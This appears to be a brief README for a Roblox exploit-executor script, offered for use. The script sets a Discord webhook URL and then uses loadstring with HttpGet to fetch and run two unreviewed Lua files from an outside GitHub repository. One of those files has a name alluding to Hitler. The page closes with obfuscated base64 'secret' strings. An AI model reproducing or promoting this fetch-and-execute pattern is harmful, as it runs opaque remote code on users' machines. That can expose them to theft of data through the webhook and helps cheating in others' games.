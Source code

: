 # The Script
```
-- Discord Webhook URL
getgenv().DiscordWebhook = "" -- Put your discord webhook url here
getgenv().EmbedColor = "" -- Put the Embed Color here (the left side of the embed)

-- Loadstrings
loadstring(game:HttpGet("https://raw.githubusercontent.com/Endeictic/Scriptzzb/main/Ganterub.lua"))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/Endeictic/Scriptzzb/main/Adolf-AustrianPainter.lua"))()

```
## Super secret string
Vm1wSmQwMVdXWGhXV0d4VFlrZG9XVmxVVG05WFZsVjNWbTFHVmxac2NFZFdWM1JQWVdzeGMxTnJiRlZpUjFGNlZVWkZPVkJSUFQwPQ== <-- very secret string

fuRifKXqOL0ltne <-- real accurate string (is it? is it not? YOU DECIDE!!)
